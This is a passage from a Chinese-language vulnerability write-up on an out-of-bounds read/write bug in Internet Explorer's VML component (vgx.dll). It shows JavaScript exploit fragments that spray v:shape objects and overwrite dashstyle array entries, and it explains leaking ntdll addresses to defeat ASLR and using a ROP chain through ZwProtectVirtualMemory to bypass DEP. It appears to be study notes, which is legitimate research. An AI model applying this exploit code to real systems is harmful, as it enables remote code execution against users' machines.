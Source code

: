 	for (var i=0; i<0x400; i++) {

	a[i].marginLeft = "a";

	marginLeftAddress = vml1.dashstyle.array.item(0x2E+0x16);

	if (marginLeftAddress > 0) {

			try{

				shape.dashstyle.array.item(0x2E+0x16+i) = 0x4b5f5f4b;

			}

		catch(e) {continue}

		}

	}

这里还有一点是看到别人的笔记发现的，我没有遇到，就是poc在编写的时候，我这里用的是0-1其实就是等于0xFFFFFFFF，但如果直接用dashstyle.array.length = 0xFFFFFFFF。会提示错误有"溢出"发生。

## **漏洞利用**

整体的思路是：利用漏洞的越界读写可以泄露出ntdll或者vgx.dll的地址，然后根据偏移位置计算出基址，再次利用漏洞覆写虚表指针，并把rop链放到对应位置，调用ZwProtectVirtualMemory函数来绕过DEP。

### **绕过ASLR**

参考了别人的文章，链接在最下方：

VML
shape的_vgRuntimeStyle属性由COARuntimeStyle对象负责处理，当访问_vgRuntimeStyle.marginLeft时，对应的COARuntimeStyle::put_marginLeft()或者COARuntimeStyle::get_marginLeft()函数就会被调用。当第一次访问marginLeft/rotation属性，那么在put_marginLeft/put_rotation函数中会调用CVMLShape::GetRTSInfo->CParserTag::GetRTSInfo来创建一个COARuntimeStyle对象，该对象大小为0xAC（实际分配0xB0）而marginLeft属性的值对应的字符串指针就保存在该COARuntimeStyle对象的0x58偏移处。可以通过get_marginLeft函数来访问该属性。

如果我们将COARuntimeStyle对象布局到和dashstyle数组相邻，然后我们越界修改COARuntimeStyle对象的marginLeft指针为0x7fe0300（0x7fe0300为ntdll!KiFastSystemCall的固定地址），再调用vgx!COARuntimeStyle::get_marginLeft获取marginLeft指针得到对应的地址。

根据exp来看，首先要创建大量的VML shape对象

	function createRects(){

	for(var i=0; i<0x400; i++){

			rect_array[i] = document.createElement("v:shape");

			rect_array[i].id = "rect" + i.toString();

			document.body.appendChild(rect_array[i]);

		}

	}

然后依次访问_vgRuntimeStyle.rotation，以此来创建大量的COARuntimeStyle对象(0xB0字节)并且在创建的中途创建一个包含44个元素的dashstyle数组（ORG数组），该数组大小与COARuntimeStyle对象一致，使之可以与其相邻。

	for (var i = 0; i < 0x400; i++){
